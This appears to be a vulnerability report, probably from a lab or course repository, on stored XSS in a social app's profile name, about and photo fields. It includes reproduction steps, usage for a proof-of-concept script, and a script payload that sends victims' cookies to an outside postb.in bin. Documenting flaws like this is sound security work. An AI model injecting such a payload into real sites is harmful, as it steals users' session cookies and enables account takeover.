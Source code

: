 # Vulnerability 9: XSS in profile page (name, about, photo) - content of the name, about, and photo name can contain script which will be executed on any person viewing profile

- Vulnerability: XSS
- Where: `name` in profile
- Where: `about` in profile
- Where: `photo` in profile
- Impact: Allows to run any script on person viewing the malicious profile


## Description
* When a person opens the main page the profile with the name is loaded so if the field `name` or `photo name` contains a script
    it will be executed in case the profile appears on the main screen (that happens when it has `Public` posts).
* When the victim opens `pending requests` all the fields related to the malicious user including `about`, `name`, and `photo` are loaded 
    so if there is a script present in them it will be executed


## Steps to reproduce

1. Create a post containing malicious script like the one below.
    * If the attack is targeted to friend requests - put the script in the `about` section.
    * If the attach is for everyone - put the script in the `name` section or upload a `photo` with the name having the script. 
    * Also create a random post with `Public` visibility.
    ```html
    <script>
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://cors-anywhere.herokuapp.com/https://postb.in/1603555839181-2461015884764", true);
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
        xhr.send(JSON.stringify({
            "cookie": document.cookie
        }));
    </script>
    ```
2. If the attack is through the `about` section - send a friend request to the victim. 
3. When any victim opens the main page the script will be loaded as part of the `name`
    and will be executed. So if the script is sending data to 
    [https://postb.in](https://postb.in/1603555839181-2461015884764)
    or another server we can view the sent data there.
4. When the victim opens the pending friend requests the script from both `about`, `name`, and `photo name` sections can be executed.


## Script usage
The script creates `postb.in` bin and sends cookies from the victim's side to the bin.
Can have both targeted (with a friend request) or attach on everyone who opens public section of posts.

```shell script
python vuln9.py <server> <target_url> <victim_username> <victim_password> <hacker_username> <hacker_password> --field {nameInput/aboutInput}
# Example:
python vuln9.py -h  # for more details
``` 


[(POC)](vuln9.py)
